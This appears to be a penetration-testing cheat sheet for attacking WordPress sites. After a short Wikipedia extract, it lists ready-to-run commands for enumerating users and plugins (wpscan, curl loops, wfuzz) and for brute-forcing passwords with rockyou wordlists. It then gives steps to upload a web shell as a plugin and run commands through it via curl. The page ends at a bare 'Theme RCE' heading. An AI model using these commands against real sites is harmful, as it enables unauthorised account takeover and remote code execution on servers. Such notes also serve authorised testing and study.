 # WordPress

## WordPress CMS

**WordPress** \(**WP**, **WordPress.org**\) is a [free and open-source](https://en.wikipedia.org/wiki/Free_and_open-source_software) [content management system](https://en.wikipedia.org/wiki/Content_management_system) \(CMS\) written in [PHP](https://en.wikipedia.org/wiki/PHP)[\[4\]](https://en.wikipedia.org/wiki/WordPress#cite_note-4) and paired with a [MySQL](https://en.wikipedia.org/wiki/MySQL) or [MariaDB](https://en.wikipedia.org/wiki/MariaDB) database. Features include a [plugin architecture](https://en.wikipedia.org/wiki/Plug-in_%28computing%29) and a [template system](https://en.wikipedia.org/wiki/Web_template_system), referred to within WordPress as Themes. WordPress was originally created as a [blog-publishing system](https://en.wikipedia.org/wiki/Blog) but has evolved to support other web content types including more traditional [mailing lists](https://en.wikipedia.org/wiki/Electronic_mailing_list) and [forums](https://en.wikipedia.org/wiki/Internet_forum), media galleries, membership sites, [learning management systems](https://en.wikipedia.org/wiki/Learning_management_system) \(LMS\) and [online stores](https://en.wikipedia.org/wiki/Shopping_cart_software). WordPress is used by 41.4% of the top 10 million websites as of May 2021,[\[5\]](https://en.wikipedia.org/wiki/WordPress#cite_note-Usage_of_content_management_systems_for_websites-5) WordPress is one of the most popular content management system solutions in use.[\[6\]](https://en.wikipedia.org/wiki/WordPress#cite_note-6) WordPress has also been used for other application domains, such as [pervasive display systems](https://en.wikipedia.org/wiki/Pervasive_display_systems) \(PDS\).[\[7\]](https://en.wikipedia.org/wiki/WordPress#cite_note-7)

The text above was extracted from [Wikipedia](https://en.wikipedia.org/wiki/WordPress).

## Enumerating WordPress

### Nmap

We can nmap nse scripts:

```text
sudo nmap --script http-wordpress-enum target.xyz
```

### WPScan

Before starting a wpscan you should update it:

```text
wpscan --update
```

To startup, we can use the “non-intrusive” default scan using only the `--url` parameter to determine the WordPress version installed and some other information about the installation including PHP version, potential vulnerabilities, and interesting files, such as robots.txt files which could contain interesting directory or file references

```text
wpscan --url http://target
```

Enumerate users:

```text
wpscan --url http://target --enumerate u
```

Enumerate plugins:

```text
wpscan --url http://target --enumerate p
```

Enumerate credentails with random-user-agent header:

```text
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

### Curl

We can enumerate users with curl and if the HTTP status code from the response is 301 then it means that the user exists:

```text
 curl -s -o /dev/null -w "%{http_code}\n" http://target/author/username
```

To automate this process we can create a loop:

```bash
for i in $(cat users.txt); \ do curl -s -o /dev/null -w "%{http_code}:$i\n" \ http://target/author/$i; done
```

An alternative method to enumerate users without a wordlist can be the following \(author=1,author=2, etc\):

```bash
 for i in {1..5}; \ do curl -L -s http://target/?author=$i \ | grep -iPo '(?<=<title>)(.*)(?=</title>)' \ | cut -f1 -d" " |grep -v "Page"; done
```

### Plecost

Enumerate plugins:

```text
plecost -i /usr/share/plecost/wp_plugin_list.txt http://target
```

### Enumerating Plugins

SecLists has a good wordlist for fuzzing for plugins called `wp-plugins.fuzz.txt`

```text
wfuzz -c -t 200 --hc=404 -w wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```

We can wpscan to enumerate plugins:

```text
 wpscan --url http://target --enumerate p
```

## Attacking WordPress

### Bruteforce

#### wpscan

We can supply a wordlist of passwords, and the “--username” parameter with a value of “admin” and if we’re lucky, we may be able to get access to the administrative interface:

```text
wpscan --url http://target --wordlist /usr/share/wordlists/rockyou.txt --username admin
```

General Bruteforce with random-user-agent:

```text
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

#### **wpbf**

{% embed url="https://github.com/atarantini/wpbf" %}

Bruteforce with username:

```text
 python wpbf.py -w passwords.txt -u admin http://target
```

### Plugins WebShell

First, find a web shell and compress it into a zip file:

```text
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress
kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php
adding: plugin-shell.php (deflated 58%)
```

Then follow these steps:

Plugins -&gt; Add New -&gt; Upload Plugin -&gt; Browse -&gt; plugin-shell.zip -&gt; Open -&gt; Install Now -&gt;

After installing the plugins, visit the uploaded and installed plugin directory/file and execute it via the browser, burp, curl or anything similar:

```text
kali@kali:~$ curl http://10.10.10.10/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

### Theme RCE

WordPress &gt; Appearance &gt; Theme Editor &gt; Theme Header

